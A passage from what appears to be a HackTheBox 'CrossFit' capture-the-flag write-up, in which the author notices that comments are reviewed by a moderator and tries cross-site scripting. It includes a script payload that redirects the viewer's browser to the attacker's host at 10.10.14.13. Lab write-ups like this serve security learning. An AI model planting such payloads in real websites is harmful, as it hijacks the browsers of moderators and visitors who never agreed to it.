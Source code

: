 ![](../../../.gitbook/assets/htb-crossfit-image-1.png)

When I posted this comment, this message appeared:

![](../../../.gitbook/assets/htb-crossfit-image-3.png)

So our comment was being evaluated by a moderator, meaning someone was viewing it! This opens XSS up as a potential first vulnerability. 

I sent this payload in :

```html
<script>document.location="http://10.10.14.13/hiiamxss"</script>
```

